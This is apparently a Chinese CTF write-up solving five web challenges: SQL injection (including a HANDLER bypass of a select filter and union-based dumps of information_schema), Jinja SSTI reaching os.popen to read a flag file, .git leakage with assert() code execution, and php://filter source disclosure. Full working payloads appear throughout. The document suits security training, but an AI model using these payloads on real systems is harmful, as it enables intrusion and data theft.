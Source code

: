 第一题——sql注入

首先查看题目发现是sql注入

于是我们查看注入类型首先尝试1' 发现报错于是尝试了1' and '1'='1

成功回显因此可判断是单引号字符型注入

![25](./import/25.png)

于是乎使用order by判断列数先试了1’ order by 2#成功回显然后又试了1‘ order by 3#报错由此可判断注入点数为2

![26](./import/26.png)

于是就可以开始尝试爆库

0';show databases;#查看当前库名

![27](./import/27.png)

发现有许多数据库，于是就想查看当前数据库

0';show tables;#查看当前数据库

![28](./import/28.png)

发现191表这个名字很突兀于是我们查看这个表，由于这个表为全数字所以查询时要加反引号

![29](./import/29.png)

发现flag字样于是我们就需要开始爆数据

```
0’;select 1,2,group_concat(flag) from 1919810931114514;#
```

![30](./import/30.png)

发现select被过滤因为我们知道该数据库是mysql数据库所以我们使用handler替换select

1';handler `1919810931114514`open; handler `1919810931114514` read first;#

```
handler xxxx open #读取指定表
handler xxxx read first; #读取指定表/句柄的首行数据
handler xxxx read next; #读取指定表/句柄的下一行数据
handler xxxx read next; #读取指定表/句柄的下一行数据
```

![31](./import/31.png)

成功拿到flag



第二题——ssit注入

那道题目

![33](./import/33.png)

发现存在ssit注入于是我们查看所有模块

__class__ #返回type类型，查看对象的类型
__bases__ #返回tuple类型，列出该类的基类
__mro__   #返回tuple类型，给出解析方法调用的顺序
__subclasses__() #返回内建方法builtin_function_or_method，获取一个类的子类
__globals__ #返回dict类型，对函数进行操作，获取当前空间下能使用的模块、方法、变量

![32](./import/32.png)

 os模块都是从warnings.catch_warnings模块入手的，因此我们需要在所有模块中查找catch_warnings的位置

 在第59个位置，因此构建语句"{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals.keys()}}`",查看该模块存在哪些函数

![34](./import/34.png)

发现在lineche函数中存在着os模块

于是我们查看该函数

{{().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13] ['eval'] ('__import__(%22os%22).popen(%22ls%22).read()' )}}


![35](./import/35.png)

发现flag在fl4g上

于是我们读取fl4g

{{().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__(%22os%22).popen(%22cat fl4g%22).read()' )}}

![36](./import/36.png)

拿到flag



第三题——.git 信息泄露

![37](./import/37.png)

打开环境发现编写该环境时用到了git于是我们猜测可能是.git泄露

![38](./import/38.png)

发现果然是git泄露于是我们使用githack获取

![39](./import/39.png)

我们打开index.php

![40](./import/40.png)

assert()函数会将括号中的字符当成代码来执行，并返回true或false

于是我们构造使得该函数成立

![41](./import/41.png)

利用git传参

![42](./import/42.png)

拿到flag



第四题——php伪协议

![43](./import/43.png)

通过题目可以发现这是一道文件包含题

我们使用filter读取源代码

得到之后发现是乱码我们使用base64编码后成功拿到源码

![44](./import/44.png)

于是我们继续使用filter读取flag.php

在进行base64编码

![45](./import/45.png)

拿到flag



第五题-union联合查询

通过题目发现是sql注入

![46](./import/46.png)

发现是单引号闭合

于是试了

1‘ order by 1到4发现只有4报错所以可以判断字段数只有3

![47](./import/47.png)

于是我们查看当前数据库

![48](./import/48.png)

发现当前数据库为geek

于是我们查看当前数据库的表名

(select group_concat(table_name)  from information_schema.tables where table_schema=database())

![49](./import/49.png)

发现当前数据库存在geekuser,l0ve1ysq1这二个表

于是我们查表

(select group_concat(column_name)  from information_schema.columns where table_schema="数据库名" and table_name="表名")

![50](./import/50.png)

发现二个表的password都是id,username,password

于是我们开始爆数据

(select group_concat(列名)from 表名)#

![51](./import/51.png)

拿到flag